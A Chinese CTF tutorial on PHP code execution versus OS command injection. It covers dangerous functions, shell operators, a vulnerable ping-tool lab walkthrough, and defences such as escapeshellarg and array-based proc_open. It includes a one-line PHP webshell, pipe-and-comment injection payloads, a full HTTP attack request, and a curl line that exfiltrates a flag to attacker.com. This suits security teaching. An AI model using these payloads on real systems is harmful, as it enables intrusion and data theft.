

> [!TIP] 推荐前置知识点
> 本篇涉及 Linux 管道符、标准输入输出流与进程衍生。建议零基础读者先行阅读：
> - 🔰 [[01-零基础入门前置指南与黑话工具字典]]：掌握终端与 Shell 核心操作。
> - ⚙️ [[24-计算机底层与操作系统极简硬核核心/01-程序运行本质：进程内存分段、堆栈底层与反弹Shell重定向解密]]：彻底搞懂进程文件描述符（fd 0/1/2）与重定向底层。

# ⚡ 命令执行与代码执行底层剖析：危险函数沉淀与 Shell 管道连接符机制

> **安全认知基石**：在 CTF 与渗透测试实战中，“代码执行（Code Execution）”与“命令执行（Command Injection / OS Execution）”常被统称为 RCE，但两者的**底层运行上下文与攻击边界截然不同**。
> * **代码执行**：运行在**语言解释器虚拟机**内部（如 Zend Engine、V8、JVM），拥有对当前进程内存、类库、全局变量的访问能力；
> * **命令执行**：跨越解释器边界，通过系统调用创建子进程并在**操作系统 Shell**（如 `/bin/sh`、`bash`、`cmd.exe`）中运行系统级可执行程序。

---

### 💡 读前必看：本篇语言与工具前置清单
* **必须具备的基础**：
  * **终端（Terminal）常识**：知道在 Linux / Windows 命令行里敲 `whoami`、`ls`、`cat` 会输出执行结果。
  * **Shell 管道符**：知道 `|` 是把前一个命令的输出传递给后一个命令。
* **本篇核心术语速查**：
  * `eval()`（代码执行之源）：PHP 语言级语言结构。它接收一个符合 PHP 语法的字符串并将其作为 PHP 代码动态执行（例如 `eval("echo 123;");`）。**切记：`eval()` 不能直接执行 Linux 命令 `ls` 或 `whoami`**，必须在代码内部调用 `system("whoami");` 才能转换为系统命令！
  * `一句话木马（WebShell）`：如 `<?php @eval($_POST['cmd']); ?>`，黑客只需向服务端 POST 提交任意 PHP 语句（例如 `cmd=system('cat /flag');`），服务器就会在内存中动态执行该代码。
  * `文件描述符 (File Descriptors)`：操作系统中 `0` 代表键盘标准输入（stdin），`1` 代表显示器标准输出（stdout），`2` 代表错误输出（stderr）。
  * `/dev/null`：Linux 系统的“无底洞黑洞设备”，任何输入重定向进去的内容全部消失，读取永远为 0 字节。

## 零、生死界限：代码执行（Code Execution）与 系统命令执行（OS Command Execution）

很多初学者容易将两者混为一谈，导致在做题时频繁出现“把 Linux 命令塞进 `eval` 导致报错”的低级失误：

| 维度 | 代码执行 (Code Execution / eval) | 系统命令执行 (Command Execution / system) |
| :--- | :--- | :--- |
| **典型函数/语法** | `eval()`、`assert()`、`create_function()` | `system()`、`exec()`、`shell_exec()`、反引号 `` ` `` |
| **解释执行引擎** | **PHP 语言虚拟机**（Zend Engine）内部 | **操作系统终端 Shell**（`/bin/sh`、`cmd.exe`） |
| **接收的参数内容** | **合法的 PHP 代码**（如 `'echo "hello";'`，必须符合语法并带分号） | **操作系统 Shell 命令字符串**（如 `'cat /flag'`、`'whoami'`） |
| **新手典型踩坑** | 执行 `eval('whoami');` 会直接爆出 Fatal Error：未定义函数 `whoami()`！ | 执行 `system('echo $USER');` 会由操作系统 Shell 展开环境变量 `$USER` 并打印。 |
| **两者之间的搭桥** | 代码执行可通过嵌套函数降维攻击：`eval('system("cat /flag");');` | 系统命令执行也可通过调用 PHP 解释器升维：`system('php -r "phpinfo();"');` |

---

## 一、命令执行的底层 C 库与系统调用原理

在以 PHP / Python 为代表的高级语言中，调用命令执行函数本质上是通过底层 C 语言标准库（glibc）向操作系统内核发起进程创建请求：



> [!IMPORTANT]
> **关键特性**：绝大多数高阶命令执行函数（如 `system`、`popen`、`shell_exec`）在底层均调用了 `/bin/sh -c "<command>"`。这意味着传入的命令字符串**会被完整的 Shell 解释器重新词法解析**，因此管道符（`|`）、分号（`;`）、逻辑运算符（`&&`）、重定向符（`>`、`<`）全部生效！

---

## 二、PHP 常见命令执行函数全参数对比矩阵

| 函数名 | 原型与底层机制 | 返回值特性 | 输出流回显行为 |
| :--- | :--- | :--- | :--- |
| **`system()`** | `string system(string $cmd [, int &$return_var])` | 返回命令输出的**最后一行** | **直接将全部输出打印到 HTTP 响应缓冲区** |
| **`exec()`** | `string exec(string $cmd [, array &$output [, int &$return_var]])` | 返回命令输出的**最后一行** | **默认不直接输出**；若传 `$output` 数组则接收完整多行结果 |
| **`passthru()`** | `void passthru(string $cmd [, int &$return_var])` | 无返回值（`void`） | **原始二进制直接直通输出**（常用于输出图片、二进制文件） |
| **`shell_exec()`** / **反引号 \`** | `string shell_exec(string $cmd)` | **完整返回**标准输出字符串 | **不直接打印**，需 `echo` 或 `print` 才能回显 |
| **`popen()`** | `resource popen(string $cmd, string $mode)` | 返回文件指针资源（`resource`） | 建立管道通信流，需 `fread()` 读取管道中的输出 |
| **`proc_open()`** | `resource proc_open(string $cmd, array $desc, array &$pipes)` | 返回进程资源句柄 | 高阶双向进程管道控制，常用于突破简陋的 `disable_functions` |
| **`pcntl_exec()`** | `void pcntl_exec(string $path [, array $args])` | 无返回值 | **直接调用 `execve()` 替换当前进程**，不经过 `/bin/sh`，无法使用管道符 |

---

## 三、Shell 管道符与多命令连接符全解析

在注入点中，攻击者通常无法修改前半段命令，必须通过 Shell 语法操作符“截断”或“拼接”恶意命令：

### 1. Linux / Unix Shell 算子语法矩阵

| 算子符号 | 语义类型 | 执行逻辑与条件 | 典型 Payload 构造模式 |
| :--- | :--- | :--- | :--- |
| `;` | **顺序执行** | 无论前置命令是否成功，紧接着执行后置命令 | `ping -c 1 127.0.0.1; cat /flag` |
| `&` | **后台并发** | 将前置命令放入后台运行，立即执行后置命令 | `ping -c 1 127.0.0.1 & cat /flag` |
| `&&` | **逻辑与 (AND)** | **仅当前置命令执行成功（退出码为 0）时**，才执行后置命令 | `ping -c 1 127.0.0.1 && cat /flag` |
| `\|` | **标准管道** | 将前置命令的标准输出（stdout）作为后置命令的标准输入（stdin） | `echo "Y2F0IC9mbGFn" \| base64 -d \| sh` |
| `\|\|` | **逻辑或 (OR)** | **仅当前置命令执行失败（退出码非 0）时**，才执行后置命令 | `ping -c 1 invalid_ip \|\| cat /flag` |
| `%0a` (`\n`) | **换行换语句** | Shell 将换行符视同语句终止（与 `;` 等效） | `ping -c 1 127.0.0.1%0acat /flag` |
| `` `cmd` `` / `$()` | **命令替换** | 将子命令执行结果作为外部命令的入参 | `echo $(whoami)` 或 `cat $(ls)` |

> [!TIP]
> **换行符 `%0a` 的绝杀场景**：
> 当后端代码使用行尾注释（如 `cmd = "ping -c 1 " + ip + " # trace test"`）企图将攻击者注入的后半部分直接注释掉时，分号 `;` 会被 `#` 一并吞噬失效。
> 此时注入 `%0a`（换行符）即可开启全新的一行代码，完美逃脱注释覆盖！

---

### 2. Windows 系统下的差异与注意点

* **连接符支持**：Windows 的 `cmd.exe` 同样支持 `&`、`&&`、`|`、`||`，但**不支持单分号 `;`** 作为命令分隔符。
* **常用读取命令**：Linux 使用 `cat /flag`，Windows 使用 `type flag.txt`。
* **目录罗列命令**：Linux 使用 `ls`，Windows 使用 `dir`。
* **空设备重定向**：Linux 重定向到 `/dev/null`，Windows 重定向到 `NUL`（例如 `ping 127.0.0.1 > NUL & whoami`）。

---

## 四、CTF 实战靶场案例精析

### 靶场场景：在线网络探测工具（Ping Tool）

#### 后端漏洞源码片段（PHP）：
```php
<?php
highlight_file(__FILE__);

if (isset($_POST['target'])) {
    $target = $_POST['target'];
    
    // 粗糙的过滤：拉黑了分号与双与符号
    if (preg_match('/;|&&/', $target)) {
        die("Hacker detected: Disallowed characters!");
    }
    
    // 💥 拼接进入系统命令并在后台异步执行，丢弃输出
    $command = "ping -c 2 " . $target . " > /dev/null 2>&1";
    system($command);
}
?>
```

> [!NOTE] 💡 小白扫盲：逐符号拆解这条被拼接的命令
> * **`ping -c 2`**：
>   * `ping` 是网络连通性测试命令；
>   * **`-c 2`（Count 计数）**：在 Linux 系统中，如果只输入 `ping 127.0.0.1`，程序会**无休止地一直发包永远不停止**，导致 Web 进程卡死甚至超时崩溃！因此开发者必须加上 `-c 2`，强制规定“只发 2 个探测包就必须自动结束退出”。
> * **`>`（输出重定向符）**：
>   * 默认情况下，命令的输出结果会打印在终端屏幕上；
>   * `>` 符号的作用是**“改变输出流向”**，把原本要打在屏幕上的内容强行转存进指定的目标文件。
> * **`/dev/null`（Linux 系统黑洞 / 空设备）**：
>   * `/dev/null` 是 Linux 下一个特殊的虚拟设备。任何写入它的数据都会瞬间被系统内核销毁蒸发，不留任何痕迹。
>   * `> /dev/null` 的意思就是：**把正常执行的输出内容直接丢进黑洞，不要显示在网页上**。
> * **`2>&1`（标准错误与标准输出合并重定向）**：
>   * 在 Linux 进程模型中，有三个标准的“数据通道”（文件描述符）：
>     * **`0`：标准输入（stdin）**，接收用户的键盘输入；
>     * **`1`：标准输出（stdout）**，程序正常运行打印在屏幕上的文字；
>     * **`2`：标准错误（stderr）**，程序遇到错误、报错警告时打印的文字。
>   * `2>&1` 中的 `&` 是引用符号，意思是：**“把通道 2（报错信息）也重定向并入通道 1（正常输出）”**！
>   * **整条指令合起来的白话含义**：`> /dev/null 2>&1` 意味着**“无论是正常回显还是报错警告，所有文字一律打包丢进 `/dev/null` 黑洞，页面绝对不会出现任何命令执行的痕迹！”**

### 1. 代码审计与攻击阻碍分析
1. **输入位置**：`$target` 被直接拼接到 `ping -c 2 ` 后面。
2. **过滤策略**：拦截了 `;` 和 `&&`。
3. **输出行为**：命令末尾被强行加上了 `> /dev/null 2>&1`，将标准输出和错误输出全部定向丢弃，页面**完全没有任何命令回显（盲执行）**！

### 2. 攻防破局思维

#### 第一步：绕过分隔符过滤
* 拦截了 `;` 和 `&&`，但未拦截单竖线 `|`、双竖线 `||`、换行符 `%0a` 以及后台符 `&`。
* 如果使用 `||`，只要前置 `ping` 命令失败，就会触发后置命令。故意写一个非法 IP：`0 || cat /flag`。

#### 第二步：突破无回显重定向（丢弃输出）
末尾附带的 `> /dev/null 2>&1` 会把拼接在最后的命令输出全部吃掉。有三种解决策略：
* **策略 A：截断重定向（利用 Linux 注释符 `#`）**：
  * 在 Linux Shell 中，**井号 `#` 是单行注释符号**，从 `#` 出现的位置开始，直到这一行结尾的所有字符，Shell 都视而不见、完全忽略！
  * 构造 Payload：`127.0.0.1 | cat /flag #`
  * 拼接后实际送入系统的命令为：
    ```bash
    ping -c 2 127.0.0.1 | cat /flag # > /dev/null 2>&1
    ```
  * 解释器视角：开头的 ping 正常执行，通过管道 `|` 执行 `cat /flag`；当读到 `#` 时，后面的 `> /dev/null 2>&1` 被当成注释全部作废！Flag 内容被原样打印输出！
* **策略 B：网络外带数据（OOB / DNSLog / HTTPLog）**：
  * `target=127.0.0.1 | curl http://attacker.com/$(cat /flag | base64)`
* **策略 C：临时文件写入（Web 目录落马）**：
  * `target=127.0.0.1 | cat /flag > flag.txt #`

### 3. HTTP 攻击发包与响应验证

```http
POST /ping.php HTTP/1.1
Host: ctf.challenge.local
Content-Type: application/x-www-form-urlencoded

target=127.0.0.1%20|%20cat%20/flag%20%23
```

#### 服务器响应：
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

flag{c0mm4nd_1nj3ct10n_p1p3_c0mm3nt_byp4ss!}
```

---

## 五、防御规范与命令转义陷阱

### 1. `escapeshellcmd()` vs `escapeshellarg()` 致命误区

很多开发者认为加了转义函数就高枕无忧，实际上组合使用错误会带来更致命的逃逸漏洞：

* **`escapeshellcmd($str)`**：转义命令字符串中的元字符（如 `& # ; \` | * ? ~ < > ^ ( ) [ ] { } $ \` 等），但**不转义空格与单双引号匹配**，允许传入额外参数选项（如 `curl` 可以传入 `-F` 读文件，`tar` 可以触发 `--checkpoint` RCE）。
* **`escapeshellarg($str)`**：在字符串两端加上单引号，并转义内部的单引号，确保整个字符串被视为**单个参数**。

> [!CAUTION]
> **连用漏洞陷阱**：
> `escapeshellcmd(escapeshellarg($input))` 联合使用时，由于 `escapeshellarg` 将内部单引号转义为 `'\''`，而外层的 `escapeshellcmd` 会将其中的反斜杠再次转义为 `'\\''`，导致**单引号闭合破坏，引发二次参数注入逃逸！**

### 2. 行业标准最佳实践：参数化与无 Shell 执行
彻底规避命令注入的唯一途径是**放弃 `/bin/sh -c` 字符串解析**，直接使用原生参数数组调用可执行文件（类似 SQL 预编译）：
```php
// ✅ 安全最佳实践：使用 proc_open 传入数组参数，完全不经过系统 Shell 解释器
$descriptors = [
    0 => ["pipe", "r"],
    1 => ["pipe", "w"],
    2 => ["pipe", "w"]
];
$process = proc_open(['/bin/ping', '-c', '2', $target], $descriptors, $pipes);
```
此时任何注入的 `;`、`|`、`&&` 均被内核视为纯文本参数，完全无法作为控制字符解析！

---

## 🔗 相关双向链接
- 上级模块：[[04-命令执行与代码执行RCE]]
- 下一章节：[[02-空格与敏感字符绕过（IFS、花括号、变量拼接、通配符）]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
